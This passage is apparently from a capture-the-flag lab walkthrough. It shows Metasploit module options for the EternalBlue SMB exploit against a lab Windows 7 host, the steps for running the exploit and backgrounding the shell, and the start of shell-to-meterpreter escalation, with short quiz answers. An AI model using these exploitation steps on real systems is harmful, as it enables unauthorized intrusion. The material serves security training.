 ```

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.166.97     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

`RHOSTS`

4. Run the exploit!

`No answer needed`

5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

`No answer needed`

## [Task 3] Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

`post/multi/manage/shell_to_meterpreter`

2. Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)

```
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
```
